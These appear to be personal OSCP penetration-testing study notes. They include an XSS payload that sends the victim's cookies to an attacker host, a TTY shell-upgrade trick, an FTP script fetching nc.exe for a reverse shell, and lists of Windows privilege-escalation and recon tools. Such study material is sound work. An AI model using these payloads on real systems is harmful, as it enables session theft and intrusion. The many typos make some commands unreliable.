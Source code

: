 # OSCP NOTES

● <script>new image().src="http://ip:port/bogus.php?output="+escape(document.cookie);</script>
● netstat -ntl >> list open port
● wappalyzer >> webpage programming lange ,service{apache,lls}, OS
● <dirb> <gobaster> :: fuzzing directuries >> wfuzz 
   wfuzz -c -z file,wordlist directiry --hc 404,302,301 url/fuzz.(php,txt,zip,sh........)

○ python -c 'import pty; pty.spawn("/bin/bash")'
   Ctrl +z 》 process to background 
   Stay raw -echo
   fg
   By this way you take interactive shell

○ reverse shell by FTB
    echo open ip >ftp.txt
    echo user limbo >ftp.txt
    echo pass >ftp.txt
    echo bin >ftp.txt
    echo GET nc.exe> ftp.txt
    echo bye>ftp.txt
 Ftp -v -n -s:ftp.txt

#automation enumeration

○ windows privesc check >> check system misconfiguration
○ watson >> .net app : find KBs(knownlege base) >> check patchs, updates
○ sherlok >> like wayson in powershell script
○ powerup >> token - services - dll hijacking - registery
○ windows exploit suggester >> patchs vs microsost vuln db
○ WinPEAS exe bat

--------------------------------------------------------------------------------------
wafwoof - nmap script >> for detect waf
wget -r / httrack url >> dowload website for offline scanning
whatweb >> info about website
whois >> info about domains / registeration
